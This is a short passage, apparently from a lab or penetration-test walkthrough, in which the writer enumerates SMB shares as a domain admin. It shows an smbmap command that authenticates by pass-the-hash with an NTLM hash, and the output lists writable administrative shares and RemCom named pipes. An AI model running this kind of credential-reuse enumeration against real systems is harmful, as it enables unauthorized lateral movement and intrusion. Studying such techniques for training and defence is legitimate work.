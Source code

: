 Firstly, I need to check what shared folder that domain admin `umar` can access.

```
smbmap -d MYCOMS -u umar -p aad3b435b51404eeaad3b435b51404ee:690202604d171a54bc7d7d06aa90df3f -H 192.168.240.30
[+] Finding open SMB ports....
[+] Hash detected, using pass-the-hash to authenticate
[+] User session established on 192.168.240.30...
[+] IP: 192.168.240.30:445	Name: 192.168.240.30                                    
	Disk                                                  	Permissions	Comment
	----                                                  	-----------	-------
	ADMIN$                                            	READ, WRITE	Remote Admin
	C$                                                	READ, WRITE	Default share
	.                                                  
	fr--r--r--                3 Mon Jan  1 06:46:46 1601	InitShutdown
	fr--r--r--                4 Mon Jan  1 06:46:46 1601	lsass
	fr--r--r--                4 Mon Jan  1 06:46:46 1601	ntsvcs
	fr--r--r--                3 Mon Jan  1 06:46:46 1601	scerpc
	fr--r--r--                1 Mon Jan  1 06:46:46 1601	Winsock2\CatalogChangeListener-288-0
	fr--r--r--                3 Mon Jan  1 06:46:46 1601	epmapper
	fr--r--r--                1 Mon Jan  1 06:46:46 1601	Winsock2\CatalogChangeListener-178-0
	fr--r--r--                3 Mon Jan  1 06:46:46 1601	LSM_API_service
	fr--r--r--                3 Mon Jan  1 06:46:46 1601	eventlog
	fr--r--r--                1 Mon Jan  1 06:46:46 1601	Winsock2\CatalogChangeListener-324-0
	fr--r--r--                2 Mon Jan  1 06:46:46 1601	atsvc
	fr--r--r--                1 Mon Jan  1 06:46:46 1601	Winsock2\CatalogChangeListener-340-0
	fr--r--r--                4 Mon Jan  1 06:46:46 1601	wkssvc
	fr--r--r--                1 Mon Jan  1 06:46:46 1601	Winsock2\CatalogChangeListener-1d8-0
	fr--r--r--                1 Mon Jan  1 06:46:46 1601	Winsock2\CatalogChangeListener-1d8-1
	fr--r--r--                3 Mon Jan  1 06:46:46 1601	RpcProxy\49158
	fr--r--r--                3 Mon Jan  1 06:46:46 1601	2f44a4bc206305e0
	fr--r--r--                3 Mon Jan  1 06:46:46 1601	RpcProxy\593
	fr--r--r--                4 Mon Jan  1 06:46:46 1601	srvsvc
	fr--r--r--                3 Mon Jan  1 06:46:46 1601	spoolss
	fr--r--r--                1 Mon Jan  1 06:46:46 1601	Winsock2\CatalogChangeListener-4a4-0
	fr--r--r--                3 Mon Jan  1 06:46:46 1601	W32TIME_ALT
	fr--r--r--                3 Mon Jan  1 06:46:46 1601	netdfs
	fr--r--r--                1 Mon Jan  1 06:46:46 1601	Winsock2\CatalogChangeListener-1d0-0
	fr--r--r--                1 Mon Jan  1 06:46:46 1601	Winsock2\CatalogChangeListener-508-0
	fr--r--r--                1 Mon Jan  1 06:46:46 1601	Winsock2\CatalogChangeListener-7c4-0
	fr--r--r--                3 Mon Jan  1 06:46:46 1601	TermSrv_API_service
	fr--r--r--                3 Mon Jan  1 06:46:46 1601	Ctx_WinStation_API_service
	fr--r--r--                3 Mon Jan  1 06:46:46 1601	SessEnvPublicRpc
	fr--r--r--                1 Mon Jan  1 06:46:46 1601	Winsock2\CatalogChangeListener-7ac-0
	fr--r--r--                1 Mon Jan  1 06:46:46 1601	Winsock2\CatalogChangeListener-b84-0
	fr--r--r--                1 Mon Jan  1 06:46:46 1601	UIA_PIPE_4388_000077b1
	fr--r--r--                4 Mon Jan  1 06:46:46 1601	RemCom_communicaton
	fr--r--r--                1 Mon Jan  1 06:46:46 1601	RemCom_stdoutPrld1653
	fr--r--r--                1 Mon Jan  1 06:46:46 1601	RemCom_stderrPrld1653
	fr--r--r--                1 Mon Jan  1 06:46:46 1601	RemCom_stdinPrld1653
	fr--r--r--                1 Mon Jan  1 06:46:46 1601	RemCom_stdoutPRAY2032
	fr--r--r--                1 Mon Jan  1 06:46:46 1601	RemCom_stderrPRAY2032
	fr--r--r--                1 Mon Jan  1 06:46:46 1601	RemCom_stdinPRAY2032
	fr--r--r--                1 Mon Jan  1 06:46:46 1601	RemCom_stdoutqrNz2040
	fr--r--r--                1 Mon Jan  1 06:46:46 1601	RemCom_stderrqrNz2040
	fr--r--r--                1 Mon Jan  1 06:46:46 1601	RemCom_stdinqrNz2040
	fr--r--r--                1 Mon Jan  1 06:46:46 1601	RemCom_stdoutDBtQ2053
	fr--r--r--                1 Mon Jan  1 06:46:46 1601	RemCom_stderrDBtQ2053
	fr--r--r--                1 Mon Jan  1 06:46:46 1601	RemCom_stdinDBtQ2053
	fr--r--r--                1 Mon Jan  1 06:46:46 1601	RemCom_stdoutKYZC6264
	fr--r--r--                1 Mon Jan  1 06:46:46 1601	RemCom_stderrKYZC6264
	fr--r--r--                1 Mon Jan  1 06:46:46 1601	RemCom_stdinKYZC6264
	IPC$                                              	READ ONLY	Remote IPC
	NETLOGON                                          	READ, WRITE	Logon server share 
```